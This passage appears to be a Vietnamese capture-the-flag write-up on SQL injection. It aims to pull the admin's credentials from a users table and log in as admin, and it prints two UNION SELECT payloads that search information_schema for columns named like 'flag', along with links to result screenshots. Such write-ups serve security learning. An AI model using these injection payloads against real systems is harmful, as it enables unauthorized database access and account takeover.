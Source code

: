 = Lấy username, password trong bảng `users` của admin và Đăng nhập vào tài khoản của admin.

= Để ý trước lỗi ghi là LIKE '%flag%' nên mình đã viết là:
`
UNION SELECT 1,2,3,4,5,column_name,7,8,9,10,11,12,13,14,15 
FROM information_schema.columns
WHERE column_name LIKE '%flag%' -- -
`

= Hiện có 3 cột là `FLAGS` và `WAITERS_FLAG` và `FLAG`. Dùng payload tìm tên bảng và tên cột:

```
UNION SELECT 1,2,3,4,5,CONCAT(table_name, ':', column_name),7,8,9,10,11,12,13,14,15 
FROM information_schema.columns
WHERE column_name LIKE '%flag%' -- -
```
<img width="470" height="152" alt="image" src="https://github.com/user-attachments/assets/0fdb105d-e6bd-4be5-b76a-63a29bd3a0f5" />

= Vậy là cột FLAG nằm trong bảng `INNODB_SYS_TABLESPACES`:

<img width="1751" height="940" alt="image" src="https://github.com/user-attachments/assets/fa135f5b-f8d5-46ad-8d2f-1d606bc213b5" />




